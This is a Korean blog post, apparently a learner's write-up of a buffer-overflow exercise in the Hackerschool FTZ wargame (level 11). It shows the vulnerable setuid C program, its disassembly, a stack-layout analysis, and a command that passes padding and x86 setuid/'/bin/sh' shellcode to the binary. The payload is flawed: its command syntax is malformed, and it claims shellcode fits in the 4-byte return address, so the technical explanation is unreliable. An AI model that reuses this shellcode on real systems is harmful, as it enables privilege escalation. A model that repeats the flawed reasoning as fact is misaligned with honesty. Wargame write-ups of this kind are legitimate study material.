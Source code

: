 ```yaml
---
date: '2022-10-01'
before : '2022-09-30'
after : '2022-10-01'
title: '시스템 해킹(9) : 해커스쿨 FTZ 레벨 11'
categories: ['C-SEC', 'KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

조금 더 어려운 BOF문제! 물론 BOF가 아니고 Format String 기법으로도 공격할 수 있지만, 기왕 BOF 연습중인거 BOF로 풀었다.

### 1. level11

이것 또한 BOF 문제이다. 하지만 이번엔 "진짜" BOF처럼 ret값이 들어가는 주소에 쉘코드를 입력해야 한다. 이는 소스코드를 보면 확인할 수 있다.

```
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}
```

attackme의 소스코드다. 음..일단 tmp에 복사해서 한 번 gdb로 디버깅
해보는 것이 좋을 것 같다.

```
0x08048470 <main+0>:    push   ebp
0x08048471 <main+1>:    mov    ebp,esp
0x08048473 <main+3>:    sub    esp,0x108
0x08048479 <main+9>:    sub    esp,0x8
0x0804847c <main+12>:   push   0xc14
0x08048481 <main+17>:   push   0xc14
0x08048486 <main+22>:   call   0x804834c <setreuid>
0x0804848b <main+27>:   add    esp,0x10
0x0804848e <main+30>:   sub    esp,0x8
0x08048491 <main+33>:   mov    eax,DWORD PTR [ebp+12]
0x08048494 <main+36>:   add    eax,0x4
0x08048497 <main+39>:   push   DWORD PTR [eax]
0x08048499 <main+41>:   lea    eax,[ebp-264]
0x0804849f <main+47>:   push   eax
0x080484a0 <main+48>:   call   0x804835c <strcpy>
0x080484a5 <main+53>:   add    esp,0x10
0x080484a8 <main+56>:   sub    esp,0xc
0x080484ab <main+59>:   lea    eax,[ebp-264]
0x080484b1 <main+65>:   push   eax
0x080484b2 <main+66>:   call   0x804833c <printf>
```

다음과 같은 코드가 뜨는데, 차근차근 분석해보면
ebp-264 시점에 우리의 str[256]이 선언되는 것 같다. strcpy는 길이 체크를 하지 않으니
버퍼오버플로우의 취약점이 보인다.  


일단 264-256을 해서 더미데이터가 8바이트 존재하는걸 확인할 수 있다. 또한 기본적으로 SFP 4바이트와
ret 4바이트가 존재할 것이다. 따라서 스택구조를 재구성해보면 :
```
str[256]
dummy[8]
sfp[4]
ret[4]
```
처럼 될 것이다. 우리가 조작하고자 하는 겂은 ret값이니 우리는 총 268바이트를 사용해
뭔가를 채우고, ret에 4바이트 쉘코드를 넣어 attackme를 실행시키면 될 것 같다. 


여기서 ret니 sfp니 아무것도 모르겠다면, 컴퓨터 구조(특히 레지스터)와 어셈블리에 대한 공부가 더 필요하다고 볼 수 있겠다. 간단히만 말하자면 ret는 return해서 돌아가는 주소이고(즉, 함수가 완료될떄 다음에 실행될 코드) sfp는 현재 스택의 기준을 잡는 값으로, 만약 이게 상위에서 호출된 함수라면 그 상위 함수의 위치값을 저장해 완료시 돌아갈 위치를 세이브해준다고 생각하면 된다.


이런걸 보면 확실히 리버싱 공부를 더 해야할 것 같다. 이런 예제야 쉽지만...

```
./attackme 'python-c'print"A"*268+
"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\
x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\
x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"'

//작성한 쉘 코드.
```
쉘코드는 인터넷에 널려있다. 스스로 만들기는 아직 실력이 좀 부족하다.


아, 그리고 쉘코드가 4바이트가 넘어가는 경우도 허다한데, 이런 경우는 환경변수 등록을
통해 등록된 환경변수의 주소를 return값으로 넘겨주면 된다. 이에 대해선 level12에서
다루도록 하겠다.


비밀번호 : it is like this

---
## Source

- 해커스쿨 FTZ
- Me!